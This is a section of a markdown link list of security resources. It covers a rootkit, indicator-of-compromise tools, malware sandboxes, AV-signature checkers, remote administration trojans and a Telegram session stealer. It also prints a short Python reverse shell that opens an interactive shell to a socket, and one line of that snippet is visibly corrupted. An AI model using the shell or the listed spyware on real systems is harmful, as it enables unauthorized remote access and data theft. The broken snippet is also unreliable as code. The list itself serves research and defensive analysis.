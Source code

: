 ## Rootkit
* Userland Rootkit: Azazel https://n0where.net/userland-rootkit-azazel [GitHub](https://github.com/chokepoint/azazel)

# IoC
* https://github.com/sroberts/awesome-iocs
* CERTitude - The seeker of IOC https://github.com/cert-w/certitude/
* Open Indicators of Compromise: OpenIOC https://n0where.net/open-indicators-of-compromise-openioc/ http://www.openioc.org/
  * IOC Finder https://www.fireeye.com/services/freeware/ioc-finder.html
  * IOC Editor https://www.fireeye.com/services/freeware/ioc-editor.htm
  * IOC Writer https://github.com/mandiant/ioc_writer
 

# AV Check and malware analysis
* [No redistribut to AV](https://nodistribute.com/)
* [VirusTotal](https://www.virustotal.com/)
* A source for pcap files and malware samples... http://malware-traffic-analysis.net/
* maltran - A command line tool to download malware exercises from malware-traffic-analysis.net - https://github.com/MalwareReverseBrasil/maltran
* http://malwareanalysis.tools/ Malware Analysis Tools (mega bookmark !)
* Tool written in python3 to determine where the AV signature is located in a binary/payload https://github.com/hegusung/AVSignSeek
* Command line tool for scanning streams within office documents plus xor db attack https://github.com/tylabs/quicksand_lite
* VirusTotal Wanna Be - Now with 100% more Hipster https://malice.io - https://github.com/maliceio/malice
* [Interactive online malware analysis service for dynamic and static research of most types of threats using any environments. Replaces a set of tools for research.](https://app.any.run/)

# RAT and other spyware
* HTTPS-based Remote Administration Tool (RAT) https://github.com/t3ntman/CrunchRAT
* outis is a custom Remote Administration Tool (RAT) or something like that. It was build to support various transport methods (like DNS) and platforms (like Powershell). http://www.kitploit.com/2017/09/outis-custom-remote-administration-tool.html  https://github.com/SySS-Research/outis
* Ar3s  Python botnet and backdoor  https://github.com/coh7eiqu8thaBu/Ares
* CHAOS Framework allow generate payloads and control remote machines. https://github.com/tiagorlampert/CHAOS
* Python Reverse Shell in 124 Characters
```
import socket as o,subprocess as u
s=o.socket()
s.connect(('0.0.0.0',1337))
c=http://u.call (["sh","-i"],stdin=s,stdout=s,stderr=s)
```
* TeleShadow - Telegram Desktop Session Stealer (Windows) [Teleshadow2- Advanced Telegram Desktop Session Hijacker!](https://github.com/ParsingTeam/TeleShadow2)
* Free Automated Malware Analysis Sandboxes and Services
	* Akana (Android files) http://akana.mobiseclab.org/
	* Binary Guard True Bare Metal http://www.binaryguard.com/
	* Intezer Analyze (Community Edition) https://analyze.intezer.com/
	* Comodo Valkyrie http://valkyrie.comodo.com/
	* Detux Sandbox (Linux binaries) http://detux.org/
	* Joe Sandbox Cloud (Community Edition) https://www.joesandbox.com/
	* Malwr (also see MalwareViz) https://malwr.com/submission/ and https://www.malwareviz.com/
	* http://sandbox.pikker.ee/
	* SecondWrite (free version) https://www.secondwrite.com/product/free-subscription/
	* Hybrid Analysis https://www.hybrid-analysis.com/
	* ThreatExpert http://www.threatexpert.com/submit.aspx
	* ThreatTrack http://www.threattracksecurity.com/resources/sandbox-malware-analysis.aspx